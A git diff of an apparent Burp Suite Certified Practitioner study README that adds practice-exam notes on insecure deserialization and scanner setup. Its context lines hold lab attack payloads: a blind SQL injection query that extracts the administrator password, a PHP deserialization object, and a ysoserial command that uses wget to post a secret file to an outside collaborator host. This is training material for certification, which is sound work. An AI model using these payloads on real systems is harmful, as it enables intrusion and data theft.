

Burp Suite Certified Practitioner
BSCP
Burp Suite Certified Practitioner

diff --git a/README.md b/README.md
@@ -1615,6 +1615,8 @@ csrf=TOKEN&username=administrator
 ;SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END+FROM+users--
 ```  
 
+>Stage 3 of the Burp Practice exam admin portal require exploitation of an [insecure deserialization](#ysoserial) cookie value.  
+
 ### Blind SQLi  
 
 >Target is vulnerable to Out of band data exfiltration using Blind SQL exploitation query. In this case the trackingID cookie.  Below is combination of SQL injection and XXE payload to exploit the vulnerability and send administrator password as DNS request to the collaborator service.  
@@ -2829,7 +2831,13 @@ O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
 CommonsCollections3 'wget http://Collaborator.net --post-file=/home/carlos/secret'
 ```  
 
-![ysoserial-rce](images/ysoserial-rce.png)  
+>Image below is from the Practice exam, I have some issues with my setup as the old version of java is needed when running `ysoserial` in bash terminal, and the Burp Suite Pro app need `sudo` to save the config of the extension.  
+
+![ysoserial rce](images/ysoserial-rce.png)  
+
+>Burp Deserialization Scanner configuration when running burp as sudo, leaving the java path to `java` and the ysoserial path to ``. My scanner detect the java deserialization in the burp issue list but not when i run it manual???  
+
+![Deserialization scanner config setup](images/Deserialization-scanner-config.png)  
 
 ### YsoSerial  
 
